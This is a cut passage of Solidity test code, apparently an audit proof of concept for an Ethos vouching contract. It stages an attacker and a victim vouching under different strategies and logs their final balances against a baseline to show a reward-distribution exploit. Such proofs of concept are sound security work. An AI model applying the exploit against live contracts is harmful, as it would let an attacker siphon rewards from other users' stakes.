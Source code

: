 ```solidity
            abi.encodeWithSignature("inviteAddress(address)", receiver)
        );
        require(success, "Failed Invite Address");
        vm.prank(receiver);
        (success, ) = address(proxyEthosProfile).call(
            abi.encodeWithSignature("createProfile(uint256)", refererId)
        );
        require(success, "Failed Create Profile");
    }

    function testDistributeRewards() public {
        // VouchID 0 - Diane initial for alice
        // VouchID 1 - Diane initial for bob
        // VouchId 2 - Carl full vouch for alice
        // VouchID 3 - Carl small vouch for bob
        // VouchID 4 - Carl vouch for diane without interference (baseline)
        uint256 victimDepositAmount = 1 ether;
        console.log("Victim Initial Deposit: ", victimDepositAmount);

        vm.prank(_diane);
        target.vouchByAddress{value: ABSOLUTE_MINIMUM_VOUCH_AMOUNT}(
            _alice,
            "Ez Money",
            "Gimmie"
        );
        vm.prank(_diane);
        target.vouchByAddress{value: ABSOLUTE_MINIMUM_VOUCH_AMOUNT}(
            _bob,
            "Ez Money",
            "Gimmie"
        );

        (
            uint256 fullVouchAttackerBalance,
            uint256 fullVouchVictimBalance
        ) = fullVouchAtStart();
        (
            uint256 minVouchAttackerBalance,
            uint256 minVouchVictimBalance
        ) = minVouchAtStart();

        uint256 balanceWithoutInterference = withoutInterference();

        console.log("Without Interference");
        console.log("");
        console.log("Expected W/o Attack   : ", balanceWithoutInterference);
        console.log("");

        console.log("Full Vouch At Start");
        console.log("");
        console.log("Victim Final Amount   : ", fullVouchVictimBalance);
        console.log("Attacker Final Amount : ", fullVouchAttackerBalance);
        console.log("");

        console.log("Min Vouch At Start");
        console.log("");
        console.log("Victim Final Amount   : ", minVouchVictimBalance);
        console.log("Attacker Final Amount : ", minVouchAttackerBalance);
        console.log("");

        console.log("Difference In Increase Stake");
        console.log("");
        console.log(
```